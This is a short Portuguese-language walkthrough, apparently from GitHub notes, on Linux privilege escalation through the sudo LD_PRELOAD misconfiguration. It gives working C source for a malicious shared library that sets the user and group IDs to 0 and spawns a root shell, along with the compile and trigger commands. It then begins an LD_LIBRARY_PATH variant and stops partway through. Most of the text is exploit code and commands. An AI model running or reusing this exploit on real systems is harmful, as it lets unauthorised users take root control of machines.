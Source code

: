 ###### Criando a vulnerabilidade:  
```
$ visudo
```

```
Defaults        env_keep += "LD_PRELOAD"
```

###### Identificando a vulnerabilidade:  
```
$ sudo -l
```

```
env_keep+=LD_PRELOAD
```

###### Criando malware para exploracao: 
```
$ pico shell.c
```

```
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>

void _init(){
    unsetenv("LD_PRELOAD");
    setgid(0);
    setuid(0);
    system("/bin/sh");
}
```

###### Compilando:  
```
$ gcc  -fPIC -shared -o shell.so shell.c -nostartfiles
```

##### Ativando:  
```
$ sudo LD_PRELOAD=/home/user/shell.so apache2
```

###### LD_LIBRARY_PATH (Fornece uma lista de diretorios aonde as bibliotecas compartilhadas sao pesquisadas primeiro.)  
```
$ sudo -l
$ ldd /usr/sbin/apache2
```

```
libcrypt.so.1 => /lib/libcrypt.so.1 (0x000f744453c000)
```

```
$ vi /tmp/shell.c
```

